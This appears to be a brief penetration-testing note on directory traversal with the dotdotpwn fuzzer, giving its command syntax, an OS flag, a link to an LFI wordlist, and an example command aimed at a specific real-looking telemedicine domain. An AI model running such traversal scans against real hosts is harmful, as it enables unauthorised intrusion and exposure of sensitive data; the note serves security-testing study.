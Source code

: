 Directory traversal
========================

dotdotpwn.pl
================================

dotdotpwn.pl -h host_test -m Module [http | http-url | ftp | tftp | payload | stdout]


![Screenshot from 2019-07-30 16-04-49](file://media/242708078.png)

for specific operating system:

-o flag

Example:
	dotdotpwn -h telemedicina.americasmed.com.br -o windows -m http


Wordlists:

<https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt>

    /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
